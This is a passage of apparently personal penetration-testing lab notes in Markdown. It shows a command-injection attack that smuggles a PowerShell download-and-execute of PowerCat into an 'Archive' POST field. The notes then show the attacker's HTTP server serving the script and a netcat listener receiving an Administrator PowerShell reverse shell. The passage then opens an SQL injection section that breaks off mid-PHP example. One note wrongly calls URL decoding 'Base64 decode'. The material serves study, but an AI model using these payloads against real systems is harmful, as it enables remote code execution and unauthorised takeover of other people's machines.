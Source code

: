 ```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
>[!Tip]
> download `PowerCat` and execute a reverse shell

```
┌──(chw㉿CHW-kali)-[/]
└─$ curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```
> (Base64 decode)\
> git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell\
> `git;IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell`
```
┌──(chw㉿CHW-kali)-[/]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.50.189 - - [05/Apr/2022 09:05:48] "GET /powercat.ps1 HTTP/1.1" 200 -
```
> GET request for powercat.ps1
```
┌──(chw㉿CHW-kali)-[/]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.3] from (UNKNOWN) [192.168.50.189] 50325
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents\meteor>
```

## SQL Injection
It is currently ranked third among [OWASP's Top 10](https://owasp.org/www-project-top-ten/) Application Security Risks. It is listed as: [A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/)
- SQL Theory Refresher
    - SQL can be employed to `query`, `insert`, `modify`, or even `delete data`, and, in some cases, `execute operating system commands`.
    -  Several different frameworks can be used to construct a backend application, written in various languages including `PHP`, `Java`, and `Python`.
    - `MySQL`, `Microsoft SQL Server`, `PostgreSQL`, and `Oracle` are the most popular database implementations
    - SQL Query Embedded in PHP Login Source Code
        ```php
        <?php
            $uname = $_POST['uname'];
            $passwd =$_POST['password'];
